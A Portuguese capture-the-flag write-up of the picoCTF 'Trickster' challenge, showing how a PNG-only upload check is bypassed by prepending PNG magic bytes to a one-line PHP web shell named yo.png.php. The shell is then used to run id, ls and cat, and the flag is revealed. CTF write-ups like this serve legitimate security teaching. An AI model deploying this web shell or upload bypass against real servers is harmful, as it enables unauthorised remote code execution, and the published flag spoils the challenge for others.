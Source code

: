 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

![image](https://github.com/user-attachments/assets/1ad8aadb-93a2-428b-b7a2-7ae33bc847cc)

Criamos um arquivo yo.php com uma simples payload PHP ```(<?=\$_GET[0]`?>`)```.

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.

![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

No final do arquivo, adicionamos a payload PHP ```(<?=\$_GET[0]`?>`)```.
Renomeamos para yo.png.php e fizemos o upload novamente.

![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

Quando subimos o aquivo, tivemos a resposta de funcionamento.

![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

```https
http://atlas.picoctf.net:62573/uploads/yo.png.php
```

Testamos a execução de código com ?0=id, confirmando o acesso

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id
```

Listamos arquivos no diretório

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..
```

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt
```

![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)

> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}` 
